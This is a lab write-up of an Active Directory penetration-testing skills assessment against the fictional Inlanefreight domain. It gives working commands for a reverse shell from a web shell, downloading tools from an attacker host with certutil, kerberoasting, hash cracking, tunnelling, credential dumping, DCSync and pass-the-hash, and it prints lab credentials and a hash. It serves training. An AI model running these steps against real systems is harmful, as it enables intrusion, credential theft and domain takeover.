# AD Enumeration & Attacks - Skills Assessment Part I

## Scenario

A team member started an External Penetration Test and was moved to  another urgent project before they could finish. The team member was  able to find and exploit a file upload vulnerability after performing  recon of the externally-facing web server. Before switching projects,  our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has  authorized us to see how far we can take our foothold and is interested  to see what types of high-risk issues exist within the AD environment.  Leverage the web shell to gain an initial foothold in the internal  network. Enumerate the Active Directory environment looking for flaws  and misconfigurations to move laterally and ultimately achieve domain  compromise.

------

# Writeup

- WEB-WIN01
- MS01
- DC01

## WEB-WIN01

First, the scenario description provided us an information about a webshell located in the `/upload` folder.

**Webshell URL:** http://10.129.202.242/uploads/antak.aspx

**Webshell login:** `admin:My_W3bsH3ll_P@ssw0rd!`



After login, we can get a reverse shell to the machine. I like to use [Villain](https://github.com/t3l3machus/Villain) to do this.

1. Use villain to generate the payload -> **generate payload=windows/reverse_tcp/powershell lhost=tun0 encode**



2. Copy the payload, paste it into the webshell command execute, and shoot.



3. Receive the reverse shell.



With our reverse shell established, we can use the [Rubeus](https://github.com/CalegariMindSec/Privesc_scripts/blob/main/Windows_Privesc/ghostpack/Rubeus.exe) or [Invoke-Kerberoast](https://github.com/CalegariMindSec/Privesc_scripts/blob/main/Windows_Privesc/Invoke-Kerberoast.ps1) to do a kerberoasting on the machine, and then, use ssf to create a tunnel for internal network.

1. Use Rubeus or Invoke-Kerberoast to a kerberoating.

**NOTE:** We are interested in the account `svc_sql`, so we can do a kerberoasting specifying this user.

**Download files:**

```powershell
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/Invoke-Kerberoast.ps1 Invoke-Kerberoast.ps1
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/Rubeus.exe Rubeus.exe
PS C:\users\administrator\Desktop> certutil.exe -urlcache -f http://10.10.14.135/ssf-win-x86_64-3.0.0.zip ssf-win-x86_64-3.0.0.zip
```

**Invoke-Kerberoast:** 

```powershell
PS C:\users\administrator\Desktop> Import-Module .\Invoke-Kerberoast.ps1
PS C:\users\administrator\Desktop> Invoke-Kerberoast -Identity svc_sql
```



**Rubeus:** 

```powershell
PS C:\users\administrator\Desktop> .\Rubeus.exe kerberoast /user:svc_sql /nowrap
```



2. Copy the hash, paste it in a file and use hashcat to crack the hash.

**Hashcat:**

```bash
hashcat -m 13100 kerberoasting_sql01.txt /usr/share/wordlists/rockyou.txt
```



**User :** `svc_sql:lucky7`

3. Use ssf to create a tunnel for internal network.

**SSF:**

```bash
On Target Machine (Windows): PS C:\users\administrator\Desktop\ssf-win-x86_64-3.0.0\ssf-win-x86_64-3.0.0> .\ssfd.exe -p 1234

On Attacker Machine (kali): └─$ ./ssf -D 1111 -p 1234 10.129.202.242

Proxychains4 Conf: socks4 127.0.0.1 1111
```





After creating the tunnel, we can use [NetExec](https://github.com/Pennyw0rth/NetExec) through proxychains4 to validate `svc_sql` credentials on the domain.

**Netexec:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.0/24 -u "svc_sql" -p "lucky7"
```



## MS01

With the tunnel created, we can check some permissions for user `svc_sql` on MS01.

**Netexec:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.50 -u "svc_sql" -p "lucky7" -X "whoami /groups"
```



As we know, user `svc_sql` is a local admin on MS01, so, we can use [impacket-secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to dump credentials on it.

**Impacket-secretsdump:**

```bash
└─$ proxychains4 -q impacket-secretsdump 'inlanefreight.local/svc_sql:lucky7'@172.16.6.50
```



**User :** `tpetty:Sup3rS3cur3D0m@inU2eR`

## DC01

With user `tpetty`, we can use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) to enumerate all the domain objects and see if we find something interesting. But first, we need to add the DC01 dns in `/etc/hosts`.

**Add DC01 in `/etc/hosts`:** 

```bash
└─# echo "172.16.6.3      DC01.INLANEFREIGHT.LOCAL" >> /etc/hosts
```

**Bloodhound-python:**

```bash
proxychains4 -q bloodhound-python -c ALL --zip -u "tpetty" -p "Sup3rS3cur3D0m@inU2eR" -d "INLANEFREIGHT.LOCAL" -dc DC01.INLANEFREIGHT.LOCAL -ns 172.16.6.3 --dns-tcp
```



After analyzing the file in bloodhound, we can find that the user `tpetty` has DCSync rights over the domain, so, we can abuse this to dump the "Administrator" hash and login on DC01 using PTH (Pass the Hash). 

**NOTE:** Dump can be done remotely using **NetExec** or **Impacket-secretsdump**.

**Netexec:**

```
└─$ proxychains4 -q netexec smb 172.16.6.3 -u "tpetty" -p "Sup3rS3cur3D0m@inU2eR" --ntds --user "Administrator"
```



**Impacket-secretsdump:**

```bash
└─$ proxychains4 -q impacket-secretsdump 'inlanefreight.local/tpetty:Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -just-dc-user "Administrator"
```



**Netexec - Check Administrator groups:**

```bash
└─$ proxychains4 -q netexec smb 172.16.6.3 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0" -X "whoami /groups"
```

